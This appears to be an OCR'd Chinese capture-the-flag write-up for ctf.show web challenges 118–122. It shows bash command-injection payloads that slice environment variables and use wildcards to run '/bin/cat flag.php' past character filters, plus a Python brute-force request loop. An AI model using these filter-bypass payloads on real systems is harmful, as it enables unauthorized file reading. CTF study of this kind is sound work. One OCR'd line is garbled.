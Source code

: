 ```bash
PHP_CFLAGS=-fstack-protectcor-strong-fpic-fpie-o2-D_LARGEFILE_SOURCE -D_FI LE_OFFSET_BITS=64
PHP_VERSION=7.3.22
SHLVL=1
```

```bash
0:
${#}
1:
${##}
${#SHLVL}
3-5:
${#RANDOM}
/:
${HOME:${#}:${##}}
${PWD:${#}:${##}}
${PWD::${#SHLVL}}
t:
${HOME:${#HOSTNAME}:${#SHLVL}}
```

所以可以构造payload:(此题PATH被过滤了)

```bash
/bin/cat flag.php
code=${HOME:${#}:${##}}???${HOME:${#}:${##}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
/bin/base64 flag.php
code=${HOME:${#}:${##}}???${HOME:${#}:${##}}?????${#RANDOM} ????.???
code=${HOME:${#}:${##}}???${HOME:${#}:${##}}?????${PHP_CFLAGS:~A} ????.???
```

#### web120-121 过滤HOME PATH

```bash
/bin/cat flag.php
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
/bin/base64 flag.php
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
${PWD::${##}}???${PWD::${##}}?????${#RANDOM} ????.???
```

#### web122 过滤#号

$?表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误

<A执行后，`$?`的值为1，再用random进行尝试

```bash
code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```

这里可以尝试自己写个脚本直到测试成功

```python
import requests
import string
url = "http://b1084b3c-a96b-4ba1-a7df-d2dc69a40e4b.challenge.ctf.show/"
payload = "<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???"
data = {
        "code" : payload
    }
res = requests.post(url, data=data)
while(len(res.text)==3069):
    res = requests.post(url,data=data)
print(res.text)
```
